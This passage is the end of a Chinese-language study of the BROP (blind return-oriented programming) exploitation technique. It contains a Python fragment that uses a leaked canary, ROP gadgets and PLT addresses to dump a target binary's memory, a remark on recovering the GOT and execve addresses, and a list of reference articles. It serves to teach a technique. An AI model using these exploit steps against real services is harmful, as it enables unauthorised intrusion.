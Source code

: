 ```python
    depth = 44
    useful_gadget = 0x430c5f
    strcmp_plt = 0x402920
    write_plt = 0x402ab0
    dumpdata = dump_addr(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget, strcmp_plt,write_plt)
    with open("dumpdata", "wb") as f:
        for x in dumpdata:
            f.write(x)
```

能够得到GOT表中write的位置，以及其他函数的在plt位置等等，像execve的plt就为402810

![image-20220808181215851](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808181215851.png)





参考文章：

BROP技术研究：https://mp.weixin.qq.com/s/Old4dKS2aDp1TETTn0WzoQ

BROP 攻击技术 ｜ PWN ：https://cloud.tencent.com/developer/article/1965871

BROP攻击原理：		 		

https://wooyun.js.org/drops/Blind%20Return%20Oriented%20Programming%20(BROP)%20Attack%20-%20%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86.html

srop、brop和ret2_csu_init技术分析：

 https://de4dcr0w.github.io/srop-brop%E5%92%8Cret2_csu_init%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90.html

ELF文件结构解析  https://pan.baidu.com/s/1TvDW1BV0LlYWClIJDkdGDA 提取码: kkas 

vsyscalls 介绍 https://xinqiu.gitbooks.io/linux-insides-cn/content/SysCall/linux-syscall-3.html